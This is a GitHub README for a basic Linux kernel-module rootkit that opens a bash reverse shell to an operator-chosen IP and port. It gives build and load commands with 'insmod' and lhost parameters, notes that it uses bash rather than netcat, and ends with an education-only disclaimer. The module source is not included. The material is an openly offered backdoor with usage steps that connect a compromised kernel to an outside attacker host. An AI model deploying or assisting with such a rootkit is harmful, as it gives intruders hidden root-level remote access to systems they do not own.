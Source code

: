 # ReverseSh3LL_As_R00tkit (RAR)

A very basic rootkit which takes two params lhost_ip and lhost_port while loading module into kernel.
To compile it you will have to install kernel-header files for targeted kernel version for which you are trying to build this module. Default values for ip and port are 127.0.0.1 and 4444 repectively.

# Usage

```bash
make
sudo insmod revShell_kmodule_backdoor.ko lhost_ip="XXX.XXX.XXX.XXX" lhost_port="ABCDE"
```

# Updates and acknowledgement

As per the suggestion from [TotallyNotAHaxxer](https://github.com/TotallyNotAHaxxer) switched to snprintf() and abandoned hacky strcat() way building command string. After some brainstorming we decided to stick to purely bash invoked reverse shell instead of netcat. Because -e option got removed from openbsd one and one from Nmap does not play nice under kernel process.

__Note: Don't use this code for illegal activities, it is only meant to teach about rootkits in cyber security education point of view. I am not responsible for any harm to unauthorised system.__
